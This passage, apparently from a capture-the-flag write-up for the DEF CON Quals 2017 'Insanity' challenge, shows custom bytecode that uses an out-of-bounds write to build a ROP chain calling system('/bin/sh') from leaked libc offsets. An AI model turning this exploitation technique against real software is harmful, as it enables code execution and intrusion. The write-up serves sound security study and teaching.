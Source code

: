     calc(17362)
    push(1)         # The conditional for the jmp, must be != 0
    jmp() 

We can now write arbitrary bytecode. The final steps are fairly straightforward: We assemble a very short ROP chain on the stack that will load a pointer to the string "/bin/sh" (found in the libc) into rdi, then jump to system(). Implemented in "Insanity", this looks as follows:

    push(33779)     # Push offset to return address from memory buffer onto the stack
    load(0)         # Load return address onto the stack.
                    # '0' selects the string at offset 0 in the virtual memory, which points to itself
    push(offset_system - offset___libc_start_main_ret)
    add()           # Add offset to leaked libc address
    push(33781)     # Push new offset, 2 qwords behind return address
    store()         # Trigger out-of-bounds write

                    # Repeat ...
    push(33779)
    load(0)
    push(offset_str_bin_sh - offset___libc_start_main_ret)
    add()
    push(33780)
    store()

    push(33779)
    load(0)
    push(offset_pop_rdi - offset___libc_start_main_ret)
    add()
    push(33779)
    store()

    # Trigger ROP chain
    exit()


The final exploit can be found [here](https://github.com/kitctf/writeups/blob/master/defconquals2017/insanity/pwn.py).
